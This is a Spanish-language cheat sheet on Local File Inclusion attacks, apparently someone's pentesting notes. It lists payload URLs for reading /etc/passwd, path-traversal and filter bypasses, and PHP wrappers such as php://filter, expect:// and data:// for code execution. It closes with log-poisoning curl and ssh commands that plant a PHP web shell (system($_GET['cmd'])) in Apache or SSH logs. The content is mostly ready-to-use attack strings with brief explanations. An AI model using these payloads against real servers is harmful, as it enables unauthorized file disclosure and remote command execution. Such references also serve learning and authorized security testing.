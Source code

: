 ___

- Tags:

____

# Definición 


La vulnerabilidad de Inclusión de Archivos Locales (LFI, por sus siglas en inglés) es una técnica de explotación común en entornos web donde un atacante puede acceder y visualizar archivos en el servidor comprometido. Esta vulnerabilidad surge principalmente debido a una falta de validación adecuada de los parámetros de entrada en las aplicaciones web. A continuación, se presentan algunos ejemplos de cómo se puede explotar esta vulnerabilidad:

____
# Ejemplos basicos:


```
http://localhost/index.php?parametro=/etc/passwd
```

Este es un ejemplo sencillo de LFI, ya que nos aprovechamos de un parámetro que no sanitiza sus entradas, lo que nos permite observar el contenido de cualquier archivo en la máquina víctima.


```
http://localhost/index.php?parametro=../../../../../../../etc/passwd
```

Con el uso de path traversal podemos evadir sanitizaciones básicas, como aquellas que solo permiten acceder a archivos dentro de la misma carpeta. Esta técnica nos permite salir de la carpeta especificada y así acceder a cualquier archivo en la máquina víctima.

```
http://localhost/index.php?parametro=....//....//....//....//....//etc/passwd
```

Esto sirve para evadir sanitizaciones que eliminan los "../" de los parámetros. Al aprovecharnos de que la función de reemplazo no es recursiva y al colocar "....//" en lugar de "../", si solo elimina una vez el "../", la cadena sigue siendo válida y podemos acceder a cualquier archivo en la máquina víctima.

```
http://localhost/index.php?parametro=....//....//....//....//....//etc/////////././././././//passwd
```


También podemos evadir la sanitización con el uso de múltiples puntos y diagonales.


```
http://localhost/index.php?parametro=../../../../???/pa??wd
```

Si por alguna razón se está utilizando "cat" u otro comando para la lectura de archivos en Linux, el uso de comodines nos permitiría acceder a un archivo específico.

```
http://localhost/index.php?parametro=/etc/passwd%00
```

En versiones antiguas de PHP, se puede utilizar el null byte para evadir la concatenación de extensiones y así poder ver cualquier archivo.

```
http://localhost/index.php?parametro=/etc/passwd/.
```

Con esto podemos evadir alguna sanitización que pueda verificar los últimos caracteres.

___
# Wrappers


```
http://localhost/index.php?parametro=php://filter/convert.base64-encode/resource=<archivo>
```

Este wrapper sirve para visualizar un archivo PHP especificado sin que sea interpretado, pero este se mostrará cifrado en base64.


```
http://localhost/index.php?parametro=php://filter/read=string.rot13/resource=<archivo>
```

Este wrapper sirve para visualizar un archivo PHP especificado sin que sea interpretado, pero este se mostrará cifrado en rot13.


```
http://localhost/index.php?parametro=php://filter/convert.iconv.utf-8.utf-16/resource=<archivo>
```

Este wrapper sirve para ver en texto plano el código PHP de un archivo en específico.

```
http://localhost/index.php?parametro=expect://comando
```

Con este wrapper podemos ejecutar un comando.


```
http://localhost/index.php?parametro=php://input
```

Con este podemos inyectar un comando, pero para eso tenemos que cambiar el método de la petición a POST y mandar el código PHP que se quiera ejecutar.


```
http://localhost/index.php?parametro=data://text/plain;base64,codigo php en base 64
```

Con este wrapper puedes inyectar código PHP a una página enviándolo como base64.


Con la siguiente herramienta puedes hacer filter chains que tambien sirve para inyectar codigo:

- **PHP Filter Chain Generator**: [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

____

# Log poisoning 


```bash 
curl -S -X GET "http://dominio" -H "User-Agent: codigo php malicioso"
```

Al hacer una petición GET a una URL cambiando el User-Agent, si tenemos acceso al registro de Apache mediante LFI, podemos ejecutar código PHP malicioso.


```bash 
curl -S -X GET "http://dominio" -H "User-Agent: <?php phpinfo() ?>"
```

Con esto podemos verificar si hay funciones deshabilitadas filtrando disable_functions.

```bash 
curl -S -X GET "http://dominio" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
```

Esto nos permite crear un parámetro y, con el uso de este parámetro, hacer una web shell sencilla.


```bash
ssh '<?php system($_GET["cmd"];)?>'@ip
```

Con esto podemos crear un parámetro y, con el uso de este parámetro, hacer una web shell sencilla, pero ahora viendo los logs de SSH.












